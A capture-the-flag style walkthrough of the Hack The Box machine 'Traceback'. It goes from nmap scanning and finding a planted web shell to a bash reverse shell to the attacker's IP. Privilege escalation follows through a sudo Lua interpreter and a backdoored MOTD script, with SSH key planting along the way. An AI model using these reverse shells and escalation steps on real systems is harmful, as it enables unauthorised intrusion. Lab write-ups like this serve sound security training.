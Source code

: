 # Traceback

This is the write-up for the box Traceback that got retired at the 15th August 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.181    traceback.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/traceback.nmap 10.10.10.181
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows the following message:
```
This site has been owned
I have left a backdoor for all the net. FREE INTERNETZZZ
- Xh4H -
```

In the HTML source code is a comment:
```
<!--Some of the best web shells that you might need ;)-->
```

By doing some **OSINT** and searching for the hackers name _Xh4H_, a GitHub profile can be found and the hacker has a [repository with Web-Shells](https://github.com/Xh4H/Web-Shells).
When searching for the comment in a search engine, there is another [GitHub repository with Web Shells](https://github.com/TheBinitGhimire/Web-Shells).

Lets copy the names of the shells into a file and search for them with **Gobuster**:
```
gobuster -u http://10.10.10.181 dir -w shell_names.list
```

The web shell _/smevk.php_ gets found and forwards to a login page for the shell:

![smevk Web Shell login](traceback_web-1.png)

By trying the default credentials _admin:admin_ we can login.
On this web shell, it is possible to execute any command in the _Execute_ field, so a reverse shell connection can be started:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'
```

![Executing Reverse Shell](traceback_web-2.png)

After executing the command, a reverse shell connection on my IP and port 9001 starts as the user _webadmin_.

## Privilege Escalation

In the home directory _/home/webadmin_ is a note in _note.txt_ from the _sysadmin_ user:
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The _.bash_history_ of _webadmin_ reveals the potential path to escalate privileges:
```
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
```

By checking the `sudo` permissions of the user, it shows that this user can run _/home/sysadmin/luvit_ as _sysadmin_:
```
sudo -l

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

After executing it without parameters, it look like some kind of **Lua Interpreter**:
```
sudo -u sysadmin /home/sysadmin/luvit

Welcome to the Luvit repl!
```

The [GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo) shows a privilege escalation method when it is run with sudo permissions:
```
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")''
```
```
sysadmin@traceback:/home/webadmin$ whoami

sysadmin
```

This works and starts a bash shell as _sysadmin_.

### Privilege Escalation to root

When searching for all files, in which the hacker put their name into, we find files for **MOTD (Message of the Day)**:
```
grep -rnw / -e 'Xh4H' 2>/dev/null

/etc/update-motd.d/00-header:25:echo
/var/backups/.update-motd.d/00-header:25:echo
```

The tool **Pspy** can show the running processes in the background, which may reveal if the attacker compromised root with **MOTD**:  
```
wget 10.10.14.9:8000/pspy64s

./pspy64s
```

Every minute the **MOTD** messages in _/var/backups_ are copied into _/etc/update-motd.d/_:
```
/bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

The **Message Of The Day** files gets run every time a user logs into the box via SSH.
By modifying one of the messages and using SSH to get into the box, we should be able run any command and escalate privileges to root.

Creating an SSH key on our local box:
```
ssh-keygen -f sysadmin.key
```

Writing the public key into the _/home/sysadmin/.ssh/authorized_keys_ file:
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ(...)" >> /home/sysadmin/.ssh/authorized_keys
```

Modifying _/etc/update-motd.d/00-header_ to execute a reverse shell command:
```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.9/9002 0>&1'" >> /etc/update-motd.d/00-header
```

Using SSH to get into the box:
```
ssh -i sysadmin.key sysadmin@10.10.10.181
```

After using SSH, the command will run and the listener on my IP and port 9002 starts a reverse shell connection as _root_!
